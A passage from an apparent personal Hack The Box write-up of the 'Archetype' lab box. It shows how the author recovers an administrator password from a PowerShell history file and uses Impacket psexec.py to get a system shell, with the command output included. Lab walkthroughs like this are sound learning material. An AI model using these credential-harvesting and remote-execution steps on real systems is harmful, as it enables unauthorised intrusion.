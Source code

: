 The command adds the request to execute `cmd.exe` upon connection. Unfortunately, that didn't work. Based on a [thread on ServerFault](https://serverfault.com/questions/588151/how-to-execute-a-reverse-powershell-shell-using-ncat-or-netcat) it may just be because I used the `.exe` extension. This did not work either.

My next step was to try Impacket's `psexec.py` but I was denied access with that as well The login for the `sql_svc` did not have the correct permissions for me to use it.

 Finally, I was able to make sense of what was provided in the [Archetype Write-up](https://app.hackthebox.eu/machines/287) and ran the following commmand as one (I tought it was two) and gained the `admin` login information.

```powershell
# type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
```

We have the admin login and passoword, which is exciting, but we're not done yet.
* User: administrator
* Password: MEGACORP_4dm1n!!

Now we can use `psexec.py` to log in as the administrator.

```Powershell
sexec.py administrator@10.10.10.27                                                              1 ⨯
Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file fJvDSfrD.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service YQNh on 10.10.10.27.....
[*] Starting service YQNh.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
We have accessed admin! Now to find the flag. It can be found at `C:\Users\administrator\Desktop`. Because I am not a windows person at the time of writing this, I was not aware and had to search for the command `type` to read it.

### Goals
1. User Own [x]
2. System Own [x]

Take that!

```ASCII
             _--~~--_
"Smeee-     |\      /|
 Heeee!"    | \    / |
           i.--`..'--.i
           \\~* || *~//  
            |\^([])^/|
            '.(-__-).'
             |`.__.'|
     .-~\____`------'____/~-.
    / _-~MMMM`------'MMMM~-_ \
   'T~MMMM/##--_.._--##\MMMM~T'
   |\MMMM/%%%%%%||%%%%%%\MMMM/|
   |=|MM|`:%%%%%||%%%%%;'|MM|=|
   |=|MM|\ `.===!!===.' /|MM|=|
   |=|MM||W\   _--_   /W||MM|=|   
   |/MMM||WW|,'_--_`.|WW||MMM\|
    |MMM||WW/.'    `.\WW||MMM|
```